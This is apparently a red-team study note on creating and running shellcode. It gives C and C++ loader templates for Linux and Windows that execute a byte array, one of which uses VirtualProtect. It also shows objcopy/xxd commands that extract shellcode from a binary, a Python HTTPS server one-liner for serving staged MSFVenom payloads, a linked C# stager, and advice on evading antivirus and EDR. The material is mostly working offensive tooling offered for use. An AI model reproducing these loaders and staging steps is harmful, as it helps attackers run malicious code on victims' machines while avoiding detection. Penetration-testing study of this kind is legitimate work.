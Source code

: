 # Shellcode Creation
## Linux

Generating shellcode for a Linux operating system: Tips.

>[!note]
>When generating MSFVenom shellcode to be executed by a stager, use the `raw` format, as the shellcode will be downloaded directly into memory.

```shell
# Copy and save executable code as c-string. (Useful to convert slivers to shellcode, etc. when not using B64 or similar)

objcopy -j .text -O binary <compiled executable> <text section to save to (still bin)>
xxd -i <text section> 
```

```c
// Example code for Linux direct execution

#include <stdio.h>

int main(int argc, char **argv) {
    unsigned char message[] = {
        <shellcode goes here>
    };
    
    (*(void(*)())message)();
    return 0;
}
```

## Windows

Generating shellcode for a Windows operating system: Tips

```cpp
// Example code for Windows direct execution

#include <windows.h>
char stager[] = {
	<shellcode goes here> 
};
int main()
{
    DWORD oldProtect;
    VirtualProtect(stager, sizeof(stager), PAGE_EXECUTE_READ, &oldProtect);
    int (*shellcode)() = (int(*)())(void*)stager;
    shellcode();
}
```

# Shellcode Injection Techniques
- Direct Injection
- Process Hollowing
- Thread Injection
- DLL Injection
TODO: Add THM reference C++ code for these

# Staged Payloads
We can generate staged payloads with [[MSFVenom]]. 

This means we are going to have to serve the payload ourselves as well. This example shows an HTTPS stage listener. 
```shell
# Spin up an HTTPS server for serving our shellcode to the stager

openssl req -new -x509 -keyout <certificate outfile> -out <same outfile as before> -days 365 -nodes

python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='<certificate we just generated>',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
```

An example C# stager can be found here: https://github.com/mvelazc0/defcon27_csharp_workshop/blob/master/Labs/lab2/2.cs. However, you should be able to perform HTTPS requests in your language of preference to fetch the raw shellcode yourself. 

>[!danger] Detection Risk
>Shellcode is inherently risky. Use the tactics described in [[Evasion]] to help your code avoid detection by AV/EDR/XDR.

